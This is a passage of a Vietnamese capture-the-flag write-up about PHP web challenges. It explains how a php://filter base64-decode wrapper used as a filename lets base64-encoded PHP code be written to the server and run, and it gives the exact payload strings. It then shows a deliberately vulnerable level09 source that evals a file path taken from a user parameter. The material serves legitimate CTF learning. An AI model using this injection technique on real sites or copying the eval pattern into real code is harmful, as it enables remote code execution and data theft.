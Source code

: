 - Đặt tên file tại param `filename` là một php wrapper filter -> nếu ta truy cập vào filename dưới dạng php wrapper filter là base64 decode, thì nội dung bên trong sẽ bị decode theo base64 (tìm hiểu thêm về php wrapper tại [đây](https://www.php.net/manual/en/wrappers.php.php) )
- Đặt data tại param `data` là dạng code php chứa `<?` mà ta mong muốn, nhưng ta phải encode base64 cho nó để khi edit file khi `filename` đang là một php wrapper decode base64, sau đó `file_get_contents` tới thì data sẽ được base64 decode trở lại và ta đã thành công trong việc lưu arbitrary php code mà không cần dùng đến `<?`.
- Bước cuối cùng quá đơn giản, truy cập tới nó là có thể đọc flag.

Áp dụng vô bài nào, đầu tiên đặt tên file là

```
php://filter/convert.base64-decode/resource=adu.php
```

edit data thành:

```
// base64 encode từ <?php readfile('../../flag.php');?>
PD9waHAgcmVhZGZpbGUoJy4uLy4uL2ZsYWcucGhwJyk7Pz4=
```

![image](https://user-images.githubusercontent.com/75429369/183102606-802f55d4-cb69-4cdf-8583-06c91412b262.png)

Truy cập tới file và 

![image](https://user-images.githubusercontent.com/75429369/183102679-2efc75d7-558d-41e7-b190-316e0e5638c9.png)

# level09

Bài này lại tiếp tục cho ta lưu một đoạn code và đố ta làm sao đọc được `flag.txt`

```php
<?php
ini_set('display_errors', 'on');
ini_set('error_reporting', E_ALL);
if( isset ($_GET['submit']) && isset ($_GET['c'])) {
    $randVal = sha1 (time ());

    setcookie ('session_id', $randVal, time () + 2, '', '', true, true);

    try {
        $fh = fopen('/tmp/' . $randVal, 'w');

        fwrite (
            $fh,
                   str_replace (
                ['<?', '?>', '"', "'", '$', '&', '|', '{', '}', ';', '#', ':', '#', ']', '[', ',', '%', '(', ')'],
                '',
                $_GET['c']
            )
        );
        fclose($fh);
    } catch (Exception $e) {
        var_dump ($e->getMessage ());
    }
}

if (isset ($_GET['cache_file'])) {
    if (file_exists ($_GET['cache_file'])) {
        echo eval (stripcslashes (file_get_contents ($_GET['cache_file'])));
    }
}
?>
```
